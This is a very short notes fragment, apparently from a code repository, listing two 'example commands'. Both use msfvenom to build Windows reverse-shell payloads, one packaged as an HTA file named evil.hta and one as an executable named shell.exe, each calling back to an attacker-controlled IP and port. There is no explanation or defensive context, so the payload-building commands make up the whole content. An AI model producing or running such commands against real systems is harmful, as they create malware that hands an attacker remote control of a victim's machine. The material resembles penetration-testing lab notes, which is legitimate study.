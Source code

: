 



# Example commands:
* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta`
* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=445 -f exe > shell.exe`